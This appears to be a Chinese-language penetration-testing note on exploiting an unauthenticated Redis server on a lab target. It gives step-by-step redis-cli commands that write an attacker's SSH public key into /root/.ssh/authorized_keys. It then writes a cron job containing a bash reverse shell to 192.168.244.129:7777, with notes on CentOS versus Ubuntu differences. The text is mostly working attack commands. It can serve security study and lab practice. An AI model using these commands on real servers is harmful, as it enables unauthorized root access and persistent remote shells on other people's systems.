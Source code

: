 

#### 写ssh-keygen

流程：

1. 利用命令在/root/.ssh/id_rsa文件夹下生成RSA公钥和私钥

   ```
   ssh-keygen -t rsa
   ```

2. 通过该命令将公钥上传到靶机

   ```
   (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
   ```

3. 在数据库中插入一条数据，将本机的公钥作为value，key值随意

   ```
   cat /root/.ssh/key.txt | redis-cli -h 192.168.244.128 -x set xxx
   ```

4. 通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生成一个授权的key

   ```
   redis-cli -h 192.168.244.128 -p 6379 
   config set dir /root/.ssh 
   config set dbfilename authorized_keys 
   save
   ```

5. 使用`ssh`命令连接靶机

   ```
   ssh 192.168.244.128
   ```

   

#### 计划任务

这个方法只能Centos上使用，Ubuntu上行不通，原因如下：

- redis默认写文件后是644的权限，但ubuntu要求执行定时任务文件`/var/spool/cron/crontabs/`权限必须是600也就是-rw-------才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/`权限644也能执行
- redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错
- 系统的不同，crontrab定时文件位置也会不同
  - Centos的定时任务文件在`/var/spool/cron/`
  - Ubuntu定时任务文件在`/var/spool/cron/crontabs/`

**流程：**

1. 在数据库中插入一条数据，将计划任务的内容作为value，key值随意

   ```
   redis-cli -h 192.168.244.128 -p 6379
   set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.244.129/7777 0>&1\n\n"
   ```

2. 修改数据库的默认路径为目标主机计划任务的路径，把缓冲的数据保存在文件里，这样就可以在服务器端成功写入一个计划任务进行反弹shell。

